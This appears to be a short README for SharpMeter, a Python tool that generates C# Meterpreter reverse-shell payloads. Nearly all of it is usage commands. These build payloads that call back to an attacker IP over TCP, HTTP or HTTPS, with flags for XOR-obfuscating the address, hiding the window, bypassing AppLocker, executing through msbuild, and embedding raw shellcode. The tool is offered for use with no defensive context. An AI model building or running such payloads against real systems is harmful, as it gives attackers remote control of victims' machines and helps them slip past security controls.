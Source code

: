 # SharpMeter
A Simple Way To Make Meterpreter Reverse Payloads

# Example tcp
python SharpMeter.py 192.168.1.101 4444 compileme.cs tcp

# Example Close Window / XOR IP
python SharpMeter.py 192.168.1.101 443 compileme.cs https -w -x

# Example AppLocker
python SharpMeter.py 192.168.1.101 443 compileme.cs https -w -a -x

# Example msbuild!
python SharpMeter.py 192.168.1.101 80 compileme.cs http -w -x -m

# Example Overide URL:
python SharpMeter.py 0.0.0.0 0 compileme.cs http -i
# To Run
compileme.exe http://192.168.1.101:80/

# Example Overide URL:
python SharpMeter.py 0.0.0.0 0 compileme.cs tcp -i
# To Run
compileme.exe 192.168.1.101:4444

# Example embed shellcode
python SharpMeter.py embed compileme.cs 0011333377....
